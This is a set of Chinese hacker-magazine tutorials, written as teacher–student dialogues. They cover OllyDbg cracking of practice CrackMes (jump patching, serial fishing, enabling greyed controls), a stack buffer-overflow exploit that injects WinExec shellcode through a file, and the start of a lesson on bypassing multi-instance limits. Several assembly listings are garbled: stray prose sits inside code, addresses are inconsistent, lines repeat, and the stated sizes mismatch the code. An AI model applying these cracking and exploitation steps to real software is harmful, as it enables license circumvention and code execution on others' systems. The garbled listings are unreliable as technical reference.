白糖：那知道了这些我们要怎么来利用它们呢？rejector：我们可以看到OD的左下方有command的输入框（如图7），这是OD的命令插件，我们在这里输入命令“BP MessageBoxA”命令后按回车（如图8）。吉利：老师，那这个命令是什么意思呢？rejector：这个命令呢，它会在MessageBoxA函数的入口点处设下一个断点，当程序运行到断点处的时候，就会被中断，OD就会停在这里，我们就可以来具体分析调用这个函数位置处的代码了。
下好断点以后，继续翻开我们的CrackMe，随便输入User和Serial后，再按“OK”，我们会看到OD的状态又变成了暂停（如图9）。
我们看OD右下角的堆栈窗口，可以看到OD的确是被中断在了MessageBoxA函数的入口点处（如图10）。
我们接着来看看OD的标题栏（如图11），OD正处于User32模块，这是系统领空，我们需要让它返回程序自己的领空后才可以继续进行调试，我们按Alt + F9就可以让OD返回到用户代码了，这时，我们看见那个“串错误，破解失败”对话框又弹出了（如图12）。
我们点确定后OD再次被中断，如图13。
但这次的模块已经是程序自己的模块了，我们可以看到有如下代码：

```
004010D9    5F            pop     edi
; ; 0012FAE8
004010DA    B8 01000000   mov     eax, 1
004010DF    5E            pop     esi
00401050    C2 1000    retn 10
```

我们往上一点点，看这里的代码：

```
004010CE    83C4 04    add esp, 4
004010D1    50    push eax
.text:004010D2    68 01000000    push 1
.text:004010D7    68 01000000    push 0
.text:004010DC    68 06004000    push 00406060
.text:004010E1    E8 00000000    call 00401110 ; iLhOwner
004010E3    FF15 A4504000    call dword
ptr:[&USER32.MessageBoxA> ; MessageBoxA
```

我们看到004010D3的地方调用了MessageBoxA函数，刚才讲过，这个函数是用来弹出一个对话框的，那根据我们上节课所学习的内容，在这句上边应该会有一个关键跳转，也就是我们常说的暴点。我们来看看这里的完整代码：

```
00401090    83C4 08    add esp, 8
004010A0    33C0    xor eax, eax
004010A2    6A 00    push 0
004010A4    68 00604000    push 00406050
为什么
004010A9    74 10    je short
004010BB
004010AB    E8 00000000    call 00401110
004010B0    83C4 04    add esp, 4
004010B3    50    push eax
004010B4    68 44604000    push 00406044
否则的话
004010B9    EB 0E    jmp short
004010C9
004010BB    E8 50000000    call 00401110
004010C0    83C4 04    add esp, 4
004010C3    50    push eax
004010C4    68 00604000    push 00406050
那既然这样的话
004010C9    E8 42000000    call 00401110
004010CE    83C4 04    add esp, 4
004010D1    50    push eax
```

```
.text:
004010D2    68 01000000    push 1
lhOwner
004010D3    FF15 A4504000    call dword
ptr:[&USER32.MessageBoxA> ; MessageBoxA
004010D5    6A 01    push 1
004012AE
004010DA    B8 01000000    mov eax, 1
004010DF    5E    pop esi
004010E0    C2 1000    retn 10


```

白糖：老师，004010C9，004010BB，004010AB都调用了00401110处的同一个函数，这个函数是什么呀？rejector：我们可以看到这三句的上一句都是一句push，压入的是我们不认识的一些字符，所以我们大胆地猜测它就是给字符串解密的函数！吉利：哦，那再往上看的话，发现004010A9处是一句je，那里是不是我们的关键跳转呢？rejector：是不是关键跳转，那我们试试就知道了，按照上节课学的，我们双击这一句，把这一句改为jne（如图14）。
图14

然后点击右键“复制到可执行文件”--“所有修改”，在弹出的对话中再点击右键“保存文件”，就可以把我们修改过的程序保存下来，我们运行破解后的程序看看，随便输入User和Serial后点“OK”，如图15，它已经提示我们“破解成功”了。
图14

rejector: OK! 下课的时间到了。经过这堂课，我想同学们应该理解了初始调试的大致流程了。回家了不要忘记复习啊。我们下节课见。

（文章中所涉及到的Crack已收录在光盘中）

## 破解零起步（三）

又一个月过去了，rejector老师也回家过年了，但是，过年归过年，他总不能不来给小菜们上课呀。这天，rejector正躺在床上享受着阳光的肆意挥洒，就在这时。“叮铃铃，叮铃铃”，rejector看了看手机，哎，又是这个死白糖。。。。。。

rejector：上个月带大家认识了OD的动态调试功能，这节课教教大家它到底有多大的用处，今天就教大家来利用调试来退出软件的注册码。

白糖：老师，为什么可以直接退出软件的注册码呢？
吉利：对呀，这个是什么原理呢？

rejector：其实呢，当我们输入注册码后，软件就会计算出其实正确的注册码和我们输入的注册码进行比较，如果我们输入的注册码与软件计算得出的注册码相同的话我们就通过注册验证了，如果不相同的话则注册失败，在这期间软件计算得出的注册码肯定会出现在内存中，在这时候我们就可以直接从内存中找出软件真正的注册码。

上节课教了大家给MessageBox函数下一个断点，但是如果程序在注册的时候没有弹出对话框怎么办呢？

先来看看本节课的CrackMe吧（如图1），我们随手输入一对User和Serial后点OK就会发现，程序并没有弹出一个对话框来提示我们，而是直接在窗体上显示了一串文字“破解失败”（如图2）。

白糖：呃，那没有对话框我们要怎么来破解它呢？
吉利：白糖，你总是这么笨，老师会教我们的嘛。
图1
图2

好的，在破解之前我们先来认识一下GetDlgItemText函数，程序调用GetDlgItemText函数用来获得与对话框中的控件相关的标题或文本。我们来看看MSDN上给出的解释。

函数原型：UINT GetDlgItemText(HWND hDlg,int nIDDlgItem,LPTSTR lpString,int nMaxCount)

hDlg：指向含有控制的对话框的句柄。

nIDDlgItem：指定标题或文本将被检索的控制的标识符。

lpString：指向获取标题或文本的缓冲器的指针。

nMaxCount：指定被复制到lpString参数指向的缓冲区的字符串的最大长度。如果字符串的字符最大长度超过范围，则该字符串被截断。

返回值：如果函数调用成功，则返回值表示被复制缓冲区的字符串的长度，不包括以NULL结尾的字符串。如果函数调用失败,则返回值为零。

函数执行以后程序会将指定控件中的文本拷贝到lpStr指针所指向的位置并返回拷贝的字节的数目。还记得我们上节课说过的关于字符串处理的API函数都有A和W两个版本的，A版使用多字节字符，W版使用宽字节字符。

当我们在输入User和Serial后按OK时，程序就会调用GetDlgItemText函数来获取我们输入到编辑框控件中的文本，而我们要做的就是在这是中断程序，好的知道了这么多，来操作一下吧！
图3

打开OD，加载想要破解的CrackMe，现在需要对GetDlgItemText函数来下一个断点，我们在CPU窗口中按Ctrl+G，会弹出（如图3）所示的对话框，输入GetDlgItemTextA后按确定就会跳到GetDlgItemTextA函数的代码处，按F2来给这一句下断点（如图4），因为我们不知道程序到底是要调用GetDlgItemTextA函数还是GetDlgItemTextW函数，所以还需要使用同样的步骤我们再来给GetDlgItemTextW函数下一个断点（如图5），下完断点以后，按F9让CrackMe在OD中运行起来，随手输入User和Serial后按确定，OD就会把CrackMe中断在刚才我们下断的地址（如图6）。
图4
图5
图6

看看这时的堆栈：

```
0012FA64    00401060    /CALL 到 GetDlgItem-
TextA 来自 Crack.0040105E
0012FA68    00150202    |hWnd =
00150202 ('CrackMe 黑客X档案菜鸟学堂专
用...',class='#32770')
0012FA6C    000003E8    |ControlID = 3E8
(1000.)
0012FA70    0040B120    |Buffer =
Crack.0040B120
0012FA74    00000064    \Count= 64 (100.)


```

我们可以看到程序是被中断在了GetDlgItemTextA函数中，被获取的窗体的句柄为0x00150202，控件ID为0x3E8，缓冲区指针为0x0040B120，能获取的最大字节数为0x64。

好的，现在我们再按Ctrl + F9让OD执行到函数返回（如图7），往上看，会看到00401044处是这一段代码开始的地方。
图7

我们看这里的代码：

```
00401051    6A 64      push  64
; /Count = 64 (100.)
00401053    68 20B14000 push  0040B120
; |Buffer = Crack.0040B120
00401058    68 E8030000 push  3E8
; |ControlID = 3E8 (1000.)
0040105D    57         push  edi
; |hWnd
0040105E    FFD6       call  esi
; \GetDlgItemTextA
00401060    6A 64      push  64
; /Count = 64 (100.)
00401062    68 20AD4000 push  0040AD20
; |Buffer = Crack.0040AD20
00401067    68 E9030000 push  3E9
; |ControlID = 3E9 (1001.)
0040106C    57         push  edi
; |hWnd
0040106D    FFD6       call  esi
; \GetDlgItemTextA
```

这里两次调用了GetDlgItemTextA函数，毫无疑问，这里就是用来获取User和Serial的，注意他的缓冲区指针，分别是0x0040B120和0x0040AD20，继续看下面的代码：

```
0040106F    68 20B14000 push  0040B120
; ASCII "monster"
00401074    BE 20AD4000 mov   esi,
0040AD20                         ; ASCII "389264167"
00401079    E8 A2000000       call    00401120

004010F8    8A50 01          mov     dl, byte ptr [eax+1]      ; 获取字符串1的第1字节
00401092    8A5E 01          mov     bl, byte ptr [esi+1]      ; 获取字符串2的第2字节
00401095    8ACA             mov     cl, dl                    ; 保存字符串1的第2字节
00401097    3AD3             cmp     dl, bl                    ; 两字符串的第2字节进行比较
00401099    75 0E            jnz     short 004010A9            ; 不相等则跳走
0040109B    83C0 02          add     eax, 2                    ; 字符串1的指针向后移动两位
0040109E    83C6 02          add     esi, 2                    ; 字符串2的指针向后移动两位
004010A1    84C9             test    cl, cl                    ; 字符串1的第2字节是不是零
004010A3    75 DC            jnz     short 00401081            ; 不是零则返回继续循环


```

这里分别获取了上边的两个指针，然后再调用一个函数，这个函数返回了一个字符串，F8过这个函数后我们注意看寄存器窗口（如图8），这时的eax是一个指针，它指向0040A920，数据为8f77cec7719f4e3，我们暂且称它为字符串1，这时的esi也是一个指针，它指向0040AD20，这是第二次调用GetDlgItemTextA函数时的缓冲区指针，指向我们输入的注册码，我们暂且称它为字符串2。

继续看下面的代码：

```
0040107E    83C4 04          add     esp, 4                    ; 平衡堆栈
00401081    8A10             mov     dl, byte ptr [eax]        ; 获取字符串1的第1字节
00401083    8A1E             mov     bl, byte ptr [esi]        ; 获取字符串2的第1字节
00401085    8ACA             mov     cl, dl                    ; 保存字符串1的第1字节
00401087    3AD3             cmp     dl, bl                    ; 两字符串的第1字节进行比较
00401089    75 1E            jnz     short 004010A9            ; 不相等则跳走
0040108B    84C9             test    cl, cl                    ; 字符串1的第一字节是不是零
0040108D    74 16            je      short 004010A5
```

仔细理一理就会发现，这是用来比较两个字符串是不是相等的函数了，继续看下面的代码：

```
004010A5    > \33C0           xor     eax, eax                  ; 两个字符串长度不同时eax清零
004010A7    EB 05            jmp     short 004010AE
004010A9    > 1BC0           sbb     eax, eax
004010AB    83D8 FF          sbb     eax, -1
004010AE    > 85C0           test    eax, eax                  ; 比较
004010B0    75 07            jnz     short 004010B9            ; 关键跳转
004010B2    68 4C804000      push    0040804C                  ; 破解成功！
004010B7    EB 05            jmp     short 004010BE
004010B9    > 68 40804000    push    00408040                  ; 破解失败！


```

## 2011合订本上卷

# 主题乐园

吉利：老师，我看懂了，程序把两个字符串进行比较，如果它们相等就提示“破解成功！”，如果它们不相等就提示“破解失败！”。

白糖：哦，老师，那我们把004010B0处的jnz改成jz是不是就破解成功了呢？

rejector：对，可是我们不这样做，我们今天玩的是追码，我们回头想一想既然程序把刚才那个字符串拿来和我们输入的Serial比较，那说明什么？

吉利：那是不是说那个字符串就是程序真正的Serial呀？

rejector：对，这就是程序真正的Serial。
既然这样我们试着输入刚才的那个字符串看看，结果（如图9），已经提示我们“破解成功！”了！！

（文章中所涉及到的Crack已经收录在光盘中）

## 缓冲区溢出（一）

### 溢出演示

Rejector

很多人在学过简单的脚本入侵以后就烦恼自己的技术为何久久不见长进，这里我就要提到缓冲区溢出了。
其实对于初学者来说缓冲区溢出是很抽象的东西，需要对计算机操作系统，汇编语言，二进制机器码等很多方面有一定的了解，而这些起步条件通常会令很多技术爱好者望而却步，本系列重点在于培养新手对于缓冲区溢出的学习兴趣，将从新手的角度重点阐释基础，循序渐进，令众叉子在缓冲区溢出的海洋里深入浅出。

本节是我们系列的第一课，我们不急着说怎么挖掘程序漏洞，首先来举个例子简单演示一下缓冲区溢出的发生。
首先我们来看一段C语言代码：

```c
#include "stdio.h"
int main(int argc, char* argv[])
{
    char str[8];
    scanf("%s", str);
    return 0;
}


```

现在我们来理解一下这段代码的功能，首先定义str为一个字符数组，大小为8个字符，可以储存一个长度为7的字符串，然后调用scanf()函数从键盘输入一个字符串保存到str，最后结束程序。
我们使用VC6.0把这段代码编译成Release版本，然后运行，我们输入一个长度为7的字符串“monster”后按回车，程序正常退出了（如图1），我们想一想，既然我们定义的字符数组str的大小为8个字符，可以储存一个长度为7的字符串，那我们输入长度为7的字符串“monster”的时候那肯定是没有错的，但如果我们要输入一个长度大于7的字符串呢？程序会怎么样呢？我们再运行一次程序，这次我们输入一个长度为14的字符串“monstermonster”后按回车，可以看到（如图2），问题出来了，系统提示我们“程序遇到问题需要关闭”。
# 主题乐园

我们来看看这个问题，在调试状态下重新模拟一下刚才的出错情况，把刚才的程序载入OD，然后把代码窗口托到最上面的00401000处（如图3）。
就可以看到我们的代码如下：

```asm
00401000  /$  83EC 0C        sub     esp, 0C
; 定义数组 开辟空间
00401003  |.  8D4424 00      lea     eax, dword ptr [esp]
; 获取当前ESP的值
00401007  |.  50             push    eax
; 压入堆栈
00401008  |.  68 30704000    push    00407030
; ASCII "%s"
0040100D  |.  E8 0E000000    call    00401020
; scanf函数
00401012  |.  33C0           xor     eax, eax
; EAX清零
00401014  |.  83C4 14        add     esp, 14
; 抬高栈顶
00401017  \.  C3             retn
; 函数返回


```

我们选中第一句，然后按F2在这一句设置一个断点，再按F9让程序运行起来，接着程序就会中断在第一句处，接下来我们按F8来让程序单步执行，到0040100D的时候我们输入“monstermonster”后按回车，等函数返回后继续按F8来单步，当执行到00401017的retn指令时，我们再按一次F8，然后我们就会发现OD成了（如图4）所示的样子，代码窗口一片空白，这时再按一次F8，OD就会弹出一个对话框（如图5），说是“不知道如何单步，因为内存地址00007265不可读，尝试更改EIP或忽略程序异常”，这里我们需要注意一下OD的寄存器窗口（如图6），这时的EIP寄存器的值变成了00007265，而00007265这个地址是不存在的，现在我们想一想，为什么会这样呢？
00007265不可读，尝试更改EIP或忽略程序异常”，这里我们需要注意一下OD的寄存器窗口（如图6），这时的EIP寄存器的值变成了00007265，而00007265这个地址是不存在的，现在我们想一想，为什么会这样呢？
在这里我们还需要了解几点基础知识：

栈区（stack）：由编译器自动分配释放，存放函数的参数值，局部变量的值等，其操作方式类似于数据结构中的栈，遵守先进先出原则。

指令指针寄存器IP（Instruction Pointer）是一个16位专用寄存器，它指向当前需要取出的指令字节，当BIU（总线接口部件）从内存中取出一个指令字节后，IP就自动加1，指向下一个指令字节，EIP是32位机的指令指针寄存器。

堆栈指针寄存器SP（Stack Pointer）：可指向目前的堆栈位置，ESP是32位机的堆栈指针寄存器。

call和retn的调用细节：其实说白了，call和retn都是跳转语句，但它们又不同于jmp，call指令会把它的下一条指令的地址压入堆栈中作为返回地址，然后跳转到它调用的函数的开头处，而单纯的jmp是不会这样做的，同时，retn指令也会自动地从栈区中弹出一个双字，这个双字就是刚才call指令压入的函数返回地址，这时retn指令把弹出的数据放入EIP寄存器中。

总结一下，就是call的本质相当于push+jmp，retn的本质相当于pop+jmp。

现在我们再来想一下刚才的EIP寄存器为什么会变成00007265呢，这个00007265是从哪里来的呢？我们知道e

对应的ASCII值为0x65，r对应的ASCII值为0x72，我们现在可以猜想这是刚才输入的字符串“monstermonster”的最后两个字符，我们在OD中按CTRL+F2重新加载程序，接着按F9让程序运行，等程序中断在00401000处后继续按F8来单步，但这次输入的时候我们输入字符串“abcdefghijklmnopqrstuvwxyz”，接着再按F8单步，等遇到retn指令时，我们就可以看到，这时的EIP寄存器变成了706F6E6D（如图7，8），我们知道m，n，o，q所对应的ASCII分别为0x6D，0x6E，0x6F，0x70，这就组成了我们EIP寄存器当前的值。
图7
图8

现在我们看看这个过程的具体细节，按CTRL+F2重新加载程序，接着按F9让程序运行，等程序中断在00401000处后继续按F8来单步，当EIP寄存器的值指向0040100D的时候我们要注意了，现在不能按F8来单步了，我们要按F7来步入这个函数，接着OD就会跳到这里：

```
00401020   /$  8D4424 08      lea     eax, dword ptr [esp+8]                       ; str所指向的缓冲区
00401024   |.  50             push    eax                                          ; 压入栈
00401025   |.  FF7424 08      push    dword ptr [esp+8]                            ; ASCII "%s"
00401029   |.  68 48704000    push    00407048                                     ; 压入参数表
0040102E   |.  E8 2C010000    call    0040115F
00401033   |.  83C4 0C        add     esp, 0C                                      ; 平衡栈
00401036   \.  C3             retn                                                 ; 返回
```

我们再看看现在寄存器里的数据：

```
EAX 0012FF78
```

```
ECX 004070B8 溢出演示.004070B8
EDX 00000003
EBX 7FFDA000
ESP 0012FF6C
EBP 0012FFC0
ESI FFFFFFFF
EDI 7C930738 ntdll.7C930738
EIP 00401020 溢出演示.00401020
```

可以看到EIP寄存器现在指向00401020，这个地址就是刚才OD所跳转到的地址，ESP寄存器现在指向0012FF6C，那我们现在就注意系统栈里指向0012FF6C的数据：

```
0012FF6C   00401012   返回到 溢出演示.00401012 来自 溢出演示.00401020
```

可以看到系统栈里指向0012FF6C的数据为00401012，这是我们刚才call指令的下一句代码的地址，继续来F8单步，到等程序运行到0040102E的时候我们再看看系统栈里的数据：

```
0012FF60   00407048   溢出演示.00407048
0012FF64   00407031   溢出演示.00407031
0012FF68   /0012FF78
0012FF6C   00401012   返回到 溢出演示.00401012 来自 溢出演示.00401020
```

可以看到0012FF68处的数据为0012FF78，这是刚才我们执行00401025处的push dword ptr [esp+8]时压入的缓冲区地址，也就是str的地址，而0012FF6C处的00401012是函数的返回地址，在命令行窗口输入命令“d 0012FF78”然后密切关注数据窗口（如图9，10），现在输入字符串“abcdefghijklmnopqrstuvwxyz”然后再看看数据窗口（如图11），从0012FF78到0012FF92就是我们刚才输入的字符串了，继续F8步过，过了00401036处的retn后程序返回到了00401012处，按两次F8让程序执行到00401017处，想一想如果我们再F8一次的话程序就会从系统栈里弹出一个双字到EIP寄存器，然后再跳到对应的地址，来看看现在寄存器里的数据：

```
EAX 00000000
```

# 主题乐园

2011合订本上卷

```
ECX: 00107048 溢出演示:00407048
EDX: 00000004
EBX: 7FFDE000
ESP: 0012FF84 ASCII: "mnopqrstuvwxyz"
EBP: 0012FFC0
ESI: FFFFFFFF
EDI: 7C930738
EIP: 00401017 溢出演示:00401017


```
可以看到当前ESP寄存器的值为0012FF84，再看看数据窗口，0012FF84就在刚才说的范围0012FF78到0012FF92之中，而这里正是我们输入的数据，0012FF84所指向的数据正好是706F6E6D，现在再F8一步，就看到OD会这样提示我们“不知道如何单步，因为内存地址706F6E6D不可读，尝试更改EIP或忽略程序异常”，这样我们就可以用输入的数据来修改EIP的值让他指向我们所指定的地址，转到指定的地方去执行代码，这样就等于控制了程序的流程。

```
0012FF78  FF FF FF FF FF FF FF FF 00 00 00 00 00 00 00 00  .........p...
0012FF88  6E 6F 70 71 72 73 74 75 76 77 78 79 7A 00 00 00  mnopqrstuvwxyz...
0012FF98  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
```

图10

```
0012FF78  61 62 63 64 65 66 67 68 69 6A 6B 6C 6D 6E 6F 70  abcdefghijklmnop
0012FF88  71 72 73 74 75 76 77 78 79 7A 00 00 00 00 00 00  qrstuvwxyz......
0012FF98  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0012FFA8  FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF  ................
0012FFB8  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
```

图11

（文章中所涉及到的程序已收录在光盘中）

## 菜鸟学堂（四）
### 灰色按钮突破

过完年了，rejector老师回到学校，回头想想，这都一个月没有看到白糖和小吉利了。

这次是菜鸟学堂的第四课了，从这节课开始我们就来讲讲对于常见的软件限制方式的突破。

首先看看本课的第一个CrackMe，我们运行一下，如图1，我们可以看到这里的“OK”按钮是灰色的，不可用，这里我们先来了解一个API函数：EnableWindow，这个函数用来允许或者禁止指定的窗口或控件接受鼠标和键盘的输入，当输入被禁止时，窗口不响应鼠标和按键的输入，输入允许时，窗口接受所有的输入，函数原型如下：

```
BOOL EnableWindow(
  HWND hWnd,
  BOOL bEnable
);


```
图1

我们来看看它的参数：

hWnd: 被允许或者禁止的窗口句柄。

bEnable: 定义窗口是被允许，还是被禁止。若该参数为TRUE，则窗口被允许。若该参数为FALSE，则窗口被禁止。

现在我们把刚才的CrackMe载入OD来看看，载入后我们按Ctrl+G，在弹出的对话框中我们输入刚才的函数名：EnableWindow。如图2，我们点“确定”后OD就会来到EnableWindow函数的入口处，我们选中这一句，在这里按F2来下一个断点，下好断点以后这一句就会变红，如图3，现在我们按F9让程序在OD中运行起来，接着我们就会看到OD会中断在刚才我们下断点的这一句，我们看看现在的堆栈窗口，如图4，我们看看这里的数据：

```
0012FBA8   00401067   /CALL 到 EnableWindow 来自 CrackMe1.00401061
0012FBAC   001F04F2   hWnd = 001F04F2 ('OK',class='#Button',parent=002D05E5)
0012FBB0   00000000   bEnable = FALSE


```

rejector

426
图2
图3
图4

可以看到这里调用了EnableWindow函数，这里的第一句是EnableWindow函数的返回地址，第二句是EnableWindow函数的第一个参数hWnd，它的值是001F04F2，我们看他后边的注释“OK”，class=“Button”,parent=002D05EE，很容易理解这是一个指向一个叫“OK”的按钮的句柄，第三句是EnableWindow函数的第二个参数bEnable，它的值是00000000，也就是False，我们刚才在上面说过，当该参数为FALSE的时候，则窗口将被禁止，现在我们就可以理解了，当过了这个EnableWindow函数后，叫“OK”的按钮将会被禁止，那我们如果不想要这个按钮被禁止的话，我们就需要把第这个函数的第三个参数修改为true，也就是00000001。

现在我们按Ctrl+F9让函数返回，返回后会来到如图5所示的地方，这里的代码如下：

```assembly
00401055    6A 00           push        0
; /Enable = FALSE
00401057    6A 01           push        1
; |/ControlID = 1
00401059    51              push        ecx
; ||hWnd
0040105A    FF15 F0C04000   call        dword ptr [<&USER32.GetDlgItem>] ; \GetDlgItem
00401060    50              push        eax
; |hWnd
00401061    FF15 08814000   call        dword ptr [<&USER32.EnableWindow>] ; \EnableWindow
```

```assembly
00401051 > 894C24 04       mov         ecx, dword ptr [esp+4]          ; Case 110 of switch
00401055   6A 00           push        0                               ; Enable = FALSE
00401057   6A 01           push        1                               ; ControlID = 1
00401059   51              push        ecx                             ; hWnd
0040105A   FF15 F0C04000   call        dword ptr [<&USER32.GetDlgItem>] ; GetDlgItem
00401060   50              push        eax                             ; hWnd
00401061   FF15 08814000   call        dword ptr [<&USER32.EnableWindow>] ; EnableWindow
00401066   C2 1000         retn        10


```

图5

我们来理解一下这段代码，第一句，压入bEnable参数，接下来的三句通过调用GetDlgItem函数来获取被操作按钮的句柄，第五句压入按钮句柄，最后一句调用EnableWindow函数。我们刚才知道只要把EnableWindow函数的参数bEnable的值修改为true就可以让这个按钮变为可用状态，所以我们只要修改这里的第一句代码，把“push 0”改为“push 1”就可以了。
图6

我们双击这一句代码，在弹出的对话框中把代码修改为“push 1”然后按确定就可以，如图6，然后点右键，选“复制到可执行文件”－“所有修改”，在弹出的窗口中再点右键，选“保存文件”即可。我们运行保存后的文件看看，如图7，这里的按钮已经变为可用状态。
图7

图8

我们再来看，对于灰色菜单的突破，放出我们今天的第二个CrackMe，如图8，我们可以看到“确定”菜单是灰色的，不可用的，在这里我们还需要了解另外一个API函数EnableMenuItem，我们来看看这个函数的原型：

```c
BOOL EnableMenuItem(
  HMENU hMenu,
  UINT uIDEnableItem,
  UINT uEnable
);


```

# 主题乐园

wIDEnableItem，欲允许或禁止的一个菜单条目的标识符。

wEnable，菜单状态，0为可用，1为灰色，2为禁用

我们把CrackMe载入OD，在OD左下角的命令框中输入“bp EnableMenuItem”也可以为函数EnableMenuItem下一个断点，如图9，我们按F9让程序跑起来，接着程序就会中断在函数EnableMenuItem的地方，我们看堆栈里的数据：
这里第一行是返回地址，第二行是菜单句柄，第三行是菜单条目的标识符，第四行是uEnable，也是我们需要关心的东西了，我们可以看到uEnable为2，我们从上面可以知道当uEnable参数的值是2的时候菜单为禁用状态，现在我们再Ctrl+F9让程序执行到函数返回，返回后的代码如下：

```
0040118F  |.  6A 02            push    2
```

```
; /Flags = MF_BYCOMMAND|MF_DISABLED|MF_STRING
00401191  |.  8BF0             mov     esi, eax
00401193  |.  68 03800000      push    8003                            ; |ItemID = 8003 (32771.)
00401198  |.  56               push    esi                             ; |hWnd
00401199  |.  FF15 CC204000    call    dword ptr [<&USER32.GetMenu>]   ; \GetMenu
0040119F  |.  50               push    eax                             ; |hMenu
004011A0  |.  FF15 D0204000    call    dword ptr [<&USER32.EnableMenuItem>]; \


```

这里的第一句代码就是压入uEnable参数，我们可以看到，他压入的是2，而只有uEnable参数为0时菜单才可用，所以我们只要把第一句代码修改为“push 0”就可以使菜单可用，修改代码和保存文件的方法在上面刚说过，保存后运行一下，如图10。
好了，这节课就讲到了这里，大家下节见。

## 菜鸟学溢出（二）
### 向进程植入代码

Rejector

大家好，我是rejector，上节课向大家演示了一下什么叫做缓冲区溢出，这节课，我们就简单的介绍一下如何给程序植入代码。

首先我们来看一段C语言代码：

```c
#include "stdio.h"
#include <windows.h>

int main()
{
    char buffer[0x30];
    FILE *fp;
    fp = fopen("rejector.txt", "r");
    fscanf(fp, "%s", buffer);
    fclose(fp);
    return 0;
}


```

这段代码首先定义一个长度为0x50的字符数组，然后打开本目录下的“rejector.txt”文件，从文件中读取一个字符串到buffer数组中最后关闭文件。看似很正常的一段代码，我们来想想上节课所讲的内容，当程序从“rejector.txt”文件里读取到的字符串长度超过0x30个的时候呢，会怎么办？那就会产生缓冲区溢出了，我们在上节课已经看到了它的危害。

现在我们来看看这个漏洞，我们在它的同目录下新建一个文本文档，命名为“rejector.txt”，然后在文件里写入一个长度大于30的字符串，比如“abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789”，接着把刚才的代码用VC6.0编译成release版本，运行看看，如图1，程序出错了，我们点“调试”（在此之前要保证OD是你的即时调试器），然后OD就会自动附加到出错的程序上，如图2，我们看OD的寄存器窗口，可以看到现在EIP寄存器的值是“33323130”，这正好是“0123”的ASCII码。
图1
图2

我们上节课就说过，EIP寄存器的值指向程序下一句将要执行的代码，只要能修改EIP的值，就可以让程序执行任意代码，现在，“0123”这4个字符的位置正好就可以覆盖到EIP，修改EIP的值，我们只要修改这4个字节，就可以改变整个程序的流程了，而程序与外界的接口就只有“rejector.txt”文件了，所以我们要向进程植入代码的话就要把代码放到“rejector.txt”文件里，让程序把代码当成代码自己读取到内存中，但读取后的数据在栈里，我们就得跑到栈里去执行代码，就要把“0123”所对应的地方修改为栈里代码的地址，只样当程序溢出的时候这个地址就会覆盖到EIP寄存器，接着程序就可以执行栈里的代码了，我们看看现在的栈：
如图3，从上面的数据可以看到从0012FF50开始，到0012FF8C结束的都是从“rejector.txt”文件读取出来的数据，而“33323130”位于0012FF84，这里的数据可以淹没EIP寄存器，我们将这里的数据改为“0012FF50”，程序溢出后就会跳转到0012FF50去执行代码，而0012FF50就是从“rejector.txt”文件读取出来的数据，我们在文件中存入恶意代码的话程序就会读取到内存，并且执行了，我们来试试。
图3

从刚才的分析中知道，“0123”这4个字符的位置正好就覆盖在EIP的地方，而我们需要让程序跳转到00012FF50，所以我们需要把这4个字节改为“0012FF50”，在修改时候要注意，在内存里储存地址的时候是从高位到低位储存的，所以修改的时候我们要改成“50FF1200”，我们在这里植入以下简单的代码做演示：

```
xor    ebx, ebx
push   ebx
push   6578652E
push   7265762F
push   6C707865
mov    eax, esp
push   1
push   eax
call   7C86114D
```

简单的来理解一下这段代码，清零ebx寄存器，再压入ebx，接着3个push是“explorer.exe”的ASCII值，而上面的“push　ebx”压入一个0来作为字符串“explorer.exe”的结束符，那为什么不直接“push 0”呢，如果用“push 0”的话机器码里就会出现0，在调用fscanf()函数的时候就会截断字符串，后面的字符就不会被读入，接下来的一句，把寄存器esp的值传入eax中，保存指向字符串“explorer.exe”的指针，然后压入1，再压入字符串“explorer.exe”的地址，最后调用7C86114D，这是WinExec()函数的入口点地址，这段代码可以让程序打开一个资源管理器。

我们要把这段汇编代码写成机器码，转换后如下：

```
33 DB 53 68 2E 65 78 65 68 72 65 72 68 65
```

```
78 70 6C 8B C4 6A 01 50 E8 17 01 46 7C 90 90 90
56


```

我们把这些机器码按照16进制的方式写入“rejector.txt”文件，并且把“0123”对应的位置修改为“0012FF50”，如图4，保存后，再运行一下程序，如图5，可以看到，资源管理器被打开了，这说明我们的溢出代码被执行了！
大家要注意，溢出对操作环境的要求很高，我编译环境，模式什么的都会导致分析和本文不一致，我在本文中使用的地址在我的机器上可以使用，到别的机器上说定就会出现错误。
（文中涉及的“相关代码”本期光盘已收录）
## 多开限制突破

rejector

学校要期中考试，搞得rejector整天都很忙，每天泡图书馆学习，回头想想这都沉睡了快一个多月了，快出来上一会儿网透透气吧，顺便找个好地方，五一带男朋友一起出去旅游，说不定还会碰到一个帅哥，这样的话就直接带帅哥回来，男朋友扔那儿算了，结果刚上QQ就看到白糖和小吉利在那边乱叫：

“rejector老师，这都多久没见到你啦！想死你了，快来给我们上课吧”

rejector想想：也对哦，这都很久没有上课了呀“孩子们，老师忙呀，整天要学习，还要泡帅哥，哪有时间呀”

“老师，那要不现在就上课吧”

“呃，那好吧，作为一名有责任心的美女，我不能抛弃你们！那我们今天就来讲讲对于软件多开限制的突破”

“那老师，什么叫多开限制呀”

有些软件，在使用的时候是不允许多开的，当你运行了一个这样的软件以后，如果你想同时打开这样的两个软件，就会被禁止，比如有些网络游戏，你登录了一个帐号之后，它就不允许你登录第二个帐号。我们这节课讲的内容就是来通过破解来解除这样的限制，想运行几个就运行几个。

这节课我们来讲两种比较常见的方法，先来看看第一种，这种方法比较好理解，在软件运行之后，一般都有一个软件的窗口，而在运行之前，就会检查当前系统中是否存在这个窗口，如果存在，则表示软件已经运行，这时运行的软件就会被禁止，我们先来看一个API函数：

```
HWND FindWindow(
  LPCTSTR lpClassName,
  LPCTSTR lpWindowName
);


```

这是FindWindow的函数原型，它可以返回一个与指定字符串相匹配的窗口类名，或窗口名最顶层窗口的窗口句柄，我们再来看它的参数。

lpClassName指向一个以null结尾的、用来指定类名的字符串或一个可以确定类名字符串的原子。如果该参数为null时，将会寻找任何与lpWindowName参数匹配的窗口。

lpWindowName指向一个以null结尾的、用来指定窗口名（即窗口标题）的字符串。如果此参数为NULL，则匹配所有窗口名。

看看它的返回值：

如果函数执行成功，则返回值是拥有指定窗口类名或窗口名的窗口的句柄。

如果函数执行失败，则返回值为NULL。
